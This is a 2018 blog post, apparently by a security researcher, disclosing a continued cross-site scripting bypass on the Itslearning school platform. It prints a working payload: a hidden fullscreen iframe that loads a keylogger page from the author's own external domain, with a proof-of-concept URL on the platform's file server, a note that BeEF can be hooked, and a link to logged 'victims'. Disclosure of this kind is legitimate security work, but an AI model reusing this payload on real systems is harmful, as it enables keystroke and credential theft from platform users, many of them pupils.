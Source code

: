 ```yaml
---
title: "ITSLEARNING XSS PART 2"
date: "2018-01-27"
categories: 
  - "articles"
tags: 
  - "cyber-security"
  - "iframe"
  - "itslearning-webcam"
  - "itslearning-xss"
  - "muskecan"
  - "mustafa-kemal-can"
  - "siber-guvenlik"
coverImage: "itslearning-xss-vulnerability.jpg"
---
```


Today I want to explain you how I can still be able to execute javascript payloads on Itslearning education syste. Itslearning XSS part 2 begins!

You should check the part 1 of this article.

#### [ITSLEARNING STORED XSS VULNERABILITY OR NOT?](https://mustafakemalcan.com/itslearning-stored-xss-vulnerability/)

Mr. Håkon Høydal, [wrote an article](https://www.vg.no/nyheter/innenriks/i/9mEe29/sikkerhetshull-i-skoleportal-mener-han-kan-få-tilgang-til-dine-barns-webkamera) about Itslearning. After that Itslearning, did some things to filter javascript codes. But this is not enough I guess.

## Itslearning XSS - iFrame is the key!

With the help of an iframe which is fullscreen and hidden, I can execute my keylogger payload.

#### Payload and PoC;

<iframe src\="[https://mustafakemalcan.com/keylog.html](https://mustafakemalcan.com/keylog.html)" style\="position:fixed; top:0px; left:0px; bottom:0px; right:0px; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">Your browser doesn't support iframes</iframe>

**PoC** : https://files.itslearning.com/data/2099/13132/keylog.html

I can call my evil js by the way. So, **I still can use BeeF XSS Framework.**

[Here is the logs.](https://mustafakemalcan.com/victims.txt)

The second XSS, I consider that not an harmful but I think Itslearning shouldn't allow something like that.

https://youtu.be/z6PUMjiNWX4

I need say thanks to **Ingvald Straume** for helps in this process.
